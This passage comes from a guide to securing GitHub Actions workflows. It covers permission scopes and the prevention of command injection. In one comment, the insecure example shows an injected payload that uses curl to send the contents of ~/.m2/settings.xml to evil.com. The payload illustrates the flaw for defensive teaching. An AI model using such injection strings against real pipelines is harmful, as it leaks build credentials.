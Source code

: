 **Common Permission Scopes**:
| Permission | Read | Write | Use Case |
|------------|------|-------|----------|
| `contents` | Checkout code | Push commits, create tags | Most workflows need read, releases need write |
| `packages` | Download artifacts | Publish packages | CI needs read, deploy needs write |
| `pull-requests` | Read PRs | Comment on PRs | PR automation |
| `security-events` | - | Upload SARIF | Security scanning |
| `issues` | Read issues | Create/update issues | Issue automation |
| `statuses` | - | Create status checks | Custom CI reporting |

**Why This Matters**:
- Limits blast radius if workflow is compromised
- Prevents accidental destructive actions
- Required for some features (e.g., SARIF upload needs `security-events: write`)
- Follows principle of least privilege

---

### 3. Input Validation & Injection Prevention

**Principle**: Never trust user-provided inputs in shell commands.

#### Command Injection Vulnerabilities

**❌ INSECURE** - Direct input to shell:
```yaml
on:
  workflow_call:
    inputs:
      maven-args:
        type: string

jobs:
  build:
    steps:
      - name: Build
        run: mvn clean verify ${{ inputs.maven-args }}
        # Attacker can inject: "&& curl evil.com/exfil?data=$(cat ~/.m2/settings.xml)"
```

**✅ SECURE** - Input validation before use:
```yaml
on:
  workflow_call:
    inputs:
      maven-args:
        type: string

jobs:
  build:
    steps:
      - name: Validate inputs
        run: |
          MAVEN_ARGS="${{ inputs.maven-args }}"

          # Allowlist validation: only safe characters
          if ! echo "$MAVEN_ARGS" | grep -qE '^[-A-Za-z0-9=.,_:/ ]*$'; then
            echo "❌ Invalid maven-args: contains disallowed characters"
            echo "Allowed: alphanumeric, hyphens, equals, dots, commas, underscores, colons, slashes, spaces"
            echo "Provided: $MAVEN_ARGS"
            exit 1
```